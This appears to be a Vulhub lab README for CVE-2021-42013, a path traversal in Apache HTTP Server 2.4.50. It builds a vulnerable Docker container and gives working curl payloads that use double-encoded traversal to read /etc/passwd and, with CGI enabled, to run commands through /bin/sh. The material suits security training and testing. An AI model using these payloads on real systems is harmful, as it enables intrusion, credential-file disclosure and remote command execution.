

# Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.50 (CVE-2021-42013)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

CVE-2021-42013 is a vulnerability that caused by incomplete fix of [CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773), an attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives.

This vulnerability affects Apache HTTP Server 2.4.49 and 2.4.50 and not earlier versions.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker-compose build
docker-compose up -d
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8080`.

## Exploit

Apache HTTP Server 2.4.50 patched the previous CVE-2021-41773 payload such as `http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`, but it was incomplete.

Use `.%%32%65` to bypass the patches (Note that `/icons/` must be a existing directory):

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

The `/etc/passwd` is disclosured successfully:



With the mods cgi or cgid enabled on the server, this path traversal vulnerability would allow arbitrary command execution:

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```


